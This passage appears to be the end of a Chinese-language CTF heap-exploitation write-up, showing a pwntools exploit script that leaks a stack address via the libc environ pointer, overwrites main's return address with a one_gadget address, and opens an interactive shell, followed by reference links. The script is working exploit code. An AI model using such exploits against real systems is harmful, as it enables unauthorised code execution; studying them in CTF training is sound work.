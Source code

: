 ```python
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    p.interactive()


if __name__ == "__main__":
    run()
```



## 參考文獻

- https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606
- https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf
- https://bbs.pediy.com/thread-226119.htm

